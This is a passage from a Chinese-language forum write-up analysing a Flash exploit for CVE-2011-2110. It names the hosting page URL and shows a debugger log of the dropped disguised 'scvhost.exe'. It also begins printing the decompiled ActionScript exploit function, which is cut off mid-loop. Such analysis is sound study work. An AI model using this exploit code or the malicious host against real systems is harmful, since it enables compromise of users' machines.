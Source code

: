  

之后打开 IE，访问`http://www.amcia.info/cve-2011-2110.html`，可以看到 Fiddler 中：

 

![](https://bbs.pediy.com/upload/attach/202108/600394_7DDQ8UJT94CCSTN.png)

 

以及 Porcess Explorer 中：

 

![](https://bbs.pediy.com/upload/attach/202108/600394_A58XYBSVC434D3G.png)

 

由于我之前设置了 windbg 作为默认调试器，因此，此时 windbg 已经自动弹出来了：

```
(e04.810): Invalid lock sequence - code c000001e (!!! second chance !!!)
eax=00000000 ebx=7ffd4000 ecx=00000000 edx=004033d9 esi=00000000 edi=00000000
eip=00403425 esp=0012ff5c ebp=0012ff88 iopl=0         nv up ei ng nz ac po cy
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010293
*** ERROR: Module load completed but symbols could not be loaded for C:\Users\test\AppData\Local\Temp\Low\scvhost.exe
scvhost+0x3425:
00403425 f04b            lock dec ebx

```

在此也可以看出`scvhost.exe`的路径在临时文件夹中。

 

**_注：这里用于实验的 main.swf 并不是特别稳定，因此需要选择合适的 Flash 版本才能执行到 scvhost.exe 出现，除此之外，windows 要选择 32 位的，IE 版本也不能太高，我也是实验了几次才最终得到了这个结果。_**

 

根据之前对代码简单分析，这里出现异常的 scvhost.exe 应该就是 cd.txt 解码之后的结果，main.swf 利用了 Adobe Flash 中存在的漏洞，实现了恶意程序的执行。所以现在的问题应该是 main.swf 是怎样利用了这个漏洞，而不是最终执行起来的恶意程序为什么出现了异常。

 

书中提供了针对 swf 文件，在漏洞利用早期触发异常，从而定位漏洞位置的方法。

4. 触发异常，定位漏洞位置
==============

对于用于漏洞利用的 swf 文件，可以直接修改反编译得到的脚本代码，再使用工具 [Flash Builder](https://sm.myapp.com/original/Office/FlashBuilder_4_6_LS10_325268.exe) 重新进行编译，生成新的 swf 文件。但是应该怎么修改呢？需要分析一下反编译得到的代码：

 

漏洞利用的主要代码都集中在 test 函数中，这个函数代码开头是这样的：

```
public function test(... rest) : void
{
    var _loc8_:int = 0;
    var _loc2_:Number = new Number(parseFloat(String(rest[0x4000000E])));
    var _loc3_:ByteArray = new ByteArray();
    _loc3_.position = 0;
    _loc3_.writeDouble(_loc2_);
    var _loc4_:uint = _loc3_[0] * 0x1000000 + _loc3_[1] * 0x10000 + _loc3_[2] * 0x100 + _loc3_[3];
    this.baseaddr = _loc4_;
    this.code.position = 0;
    this.code.endian = Endian.LITTLE_ENDIAN;
    this.code.writeInt(this.pobj - 1 + 16 + 409600);
    this.code.endian = Endian.BIG_ENDIAN;
    this.code.writeUnsignedInt(0x41414141);
    this.code.writeUnsignedInt(0x41414141);
    this.code.writeUnsignedInt(0x41414141);
    _loc8_ = 0;
    while(_loc8_ < 102400)
```